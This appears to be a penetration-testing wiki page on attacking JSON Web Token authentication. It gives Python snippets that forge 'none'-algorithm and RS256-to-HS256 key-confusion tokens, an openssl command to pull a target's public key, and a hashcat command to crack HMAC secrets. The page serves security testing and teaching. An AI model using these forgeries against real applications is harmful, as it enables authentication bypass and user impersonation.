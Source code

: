 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens \(JWTs\) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts \(header, payload, signature\) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```text
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` \(or `none`, `NONE`, `nOnE`\) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Cracking the secret

When JWT use HMAC-SHA256/384/512 algorithms to sign the payload, tester can try to find the secret used if it weak enough. [JWT cracker](https://github.com/lmammino/jwt-cracker) \(JavaScript\) and [JWT tool](https://github.com/ticarpi/jwt_tool) \(Python\) are tools that testers can use to bruteforce JWT secrets.

JWT secrets can also be cracked using hashcat \(see the [AD credential cracking](../../active-directory-domain-services/movement/credentials/cracking.md) page for more detailed info on how to use it\).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one \(for algos ES256, ES384, ES512\) or two \(for algos RS256, RS384, RS512\) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" caption="" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" caption="" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" caption="" %}

{% embed url="https://jwt.io/" caption="" %}

